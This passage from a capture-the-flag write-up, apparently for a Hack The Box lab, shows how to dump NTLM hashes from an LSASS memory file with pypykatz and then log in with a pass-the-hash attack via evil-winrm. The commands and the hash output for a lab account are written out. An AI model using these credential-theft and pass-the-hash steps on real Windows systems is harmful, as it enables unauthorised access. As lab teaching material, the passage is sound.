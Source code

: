 The memory_analysis drive has a `lsass.zip` file. In Windows, the LSASS memory typically stores credentials for users on the machine. Some attacks on Windows environments include dumping LSASS and using a tool like `mimikatz` to extract passwords. Fortunately for us, it looks like we can just grab this file now. Additionally, since this isn't a new dump as far as we can tell, we don't necessarily know if these credentials will still be valid. Let's see what we can find.

```bash
> cd memory_analysis
> get lsass.zip
```

I'll use the tool [pypykatz](https://github.com/skelsec/pypykatz), which is like `mimikatz` but helps with locally extracting credentials. A great guide can be found [here](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows) on Hackndo.

```bash
$ pypykatz lsa minidump lsass.DMP
[...]
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
```

We now have a few different accounts and their NTLM hashes. We can attempt a pass-the-hash attack with `evil-winrm`, which tries remote access utilizing port 5985. Enumerating through our options, we can successfully log in with the svc_backup account.

```bash
$ evil-winrm -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup -i 10.10.10.192
```

Let's grab the user flag.

![](/assets/img/posts/htb/07-2020-5/user-flag.png)

## Root Flag

Now, on to root. Let's see what kind of access we have with the svc_backup user.
